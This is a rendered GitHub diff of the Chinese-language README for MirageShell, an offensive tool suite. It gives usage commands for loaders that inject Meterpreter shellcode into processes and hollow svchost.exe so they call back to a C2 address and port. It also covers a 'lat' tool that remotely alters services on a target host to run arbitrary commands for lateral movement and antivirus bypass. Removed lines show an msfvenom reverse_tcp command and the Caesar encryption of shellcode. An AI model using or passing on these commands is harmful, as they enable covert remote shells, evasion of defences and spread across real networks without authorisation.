

Before and after one commit to RasAlGhul-1/MirageShell, a Markdown page: README.md, the part around one of its changes. Shown at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update README.md
Updated the README to reflect the new tool name and features, including a detailed description of MirageShell and its functionalities, as well as usage instructions and caveats.

````diff
--- a/README.md
+++ b/README.md
@@ -64,34 +51,44 @@ RevSwap 是一个轻量级 .NET 动态加载器，通过加密与特征码定位
 
----
+```powershell
+csc /platform:x64 /out:Met64Inject.exe Met64Inject.cs
+```
 
-## 程序代码
+也可以直接使用release版本
 
-以下四个文件为本项目核心源码，分别对应四种载荷类型。请将你生成并凯撒加密后的 `enc` 数组替换到对应位置，再按照注释中的编译命令编译即可。
+```powershell
+Met64Inject.exe <IP> <Port> <TargetProcess>
 
-### 1. `met64_tcp.cs` - x64 Meterpreter TCP
+Met64Inject.exe 192.168.1.88 4444 notepad
+```
 
-### 2. `met_tcp.cs` - x86 Meterpreter TCP
+## RevShell-Hollow
 
-### 3. `shell64_tcp.cs` - x64 Shell TCP
+### 快速使用
 
-### 4. `shell_tcp.cs` - x86 Shell TCP
+```cmd
+<程序名>.exe <IP> <Port> <进程完整路径>
+```
 
----
+示例：
 
-## 快速使用
+```cmd
+Met64Hollow.exe 10.10.14.10 4444 C:\Windows\System32\svchost.exe
+MetHollow.exe 10.10.14.10 4444 C:\Windows\SysWOW64\svchost.exe
+```
 
-### 自行编译
+- **IP/Port**：C2 监听地址和端口。
+- **进程完整路径**：必须是一个真实存在的可执行文件路径，该文件会被挂起创建并作为宿主进程。
+- 推荐使用 `C:\Windows\System32\svchost.exe`（x64）或 `C:\Windows\SysWOW64\svchost.exe`（x86）。
 
-以windows/x64/meterpreter/reverse_tcp为例
+## lat
 
-1. 为每个程序生成占位符 shellcode 并凯撒 +5 加密，得到 `enc` 数组。
+用于远程修改目标主机上的服务并启动，执行任意命令。搭配前几种可以完成横向移动和简单的杀软绕过。
 
-   ```csharp
-   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=17.17.17.17 LPORT=8738 -f csharp
-   ```
+### 快速使用
 
-   ![image](assets/image-20260610175842-f0ofkwg.png)
+```powershell
+lat64.exe <目标主机> <服务名> <完整命令行>
+```
 
-   ![image](assets/image-20260610175915-srrihsf.png)
-2. 将数组替换到对应 `.cs` 文件的 `enc` 变量中。
+**示例（PowerShell）** ：
 
````
Also changed, not shown: other parts of README.md (+40 -66 lines).
